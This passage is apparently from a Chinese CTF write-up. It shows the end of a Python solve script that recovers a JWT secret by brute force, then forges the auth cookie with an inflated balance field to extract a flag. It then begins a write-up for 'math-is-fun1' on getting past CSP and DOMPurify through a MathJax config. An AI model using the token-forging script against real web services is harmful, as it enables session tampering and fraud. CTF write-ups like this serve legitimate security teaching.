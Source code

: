 ```python
        res = req.get(url)
        if j + secret in res.text:
            secret = j+secret
            print(secret)
            break
        else:
            if j == "z":
                die = True
                print("get! this is SECRET: "+secret)
                break
            continue

mycookie = req.cookies.get("auth")
print(mycookie)
mysecret = jwt.decode(mycookie,secret, algorithm='HS256')

mysecret['jkl'] = 10000000000000000000000000000

mycookie = jwt.encode(mysecret,secret,algorithm='HS256')
mycookie = str(mycookie, encoding='ascii')

req.cookies.clear()

req.cookies.set("auth",mycookie)

res = req.post(shopUrl)
# req.cookies.pop(0)
flag = req.cookies.values()[1].split(".")[1].encode(encoding='utf-8')
flag += (len(flag) % 4) * b"="
flag = base64.b64decode(flag)
print(flag)
#print(req.cookies.values())
# flag = jwt.decode(flag,secret, algorithm='HS256')
#
# print(flag)
```

<a name="math-is-fun1"></a>
### math-is-fun1

> 出题人：u2400
> 解题人数：15
> 最终分数：588


第一题本属于简单题, 但是无奈大部分师傅都想得太过麻烦. 使用我本来为第二题预留的思路做出了第一道题, 造成了两道题同解的情况.<br />首先打开题目, 提示中明确指出了存在 `CSP` 和 `DOMpurify` , 发现开头为 `hello challenge` , 发现get有一个参数为 `name=challenge` 测试会发现这里没有任何过滤但是碍于 `CSP` 所以无法执行js.<br />翻阅 `mathjax` 的文档在 [configuration.html](https://docs.mathjax.org/en/latest/configuration.html) 关注到有这样一种配置文件的写法

```html
<script type="text/x-mathjax-config">
  MathJax.Hub.Config({
    extensions: ["tex2jax.js"],
    jax: ["input/TeX", "output/HTML-CSS"],
    tex2jax: {
      inlineMath: [ ['$','$'], ["\\(","\\)"] ],
      displayMath: [ ['$$','$$'], ["\\[","\\]"] ],
      processEscapes: true
    },
    "HTML-CSS": { fonts: ["TeX"] }
  });
</script>
<script type="text/javascript" src="path-to-MathJax/MathJax.js">
</script>
```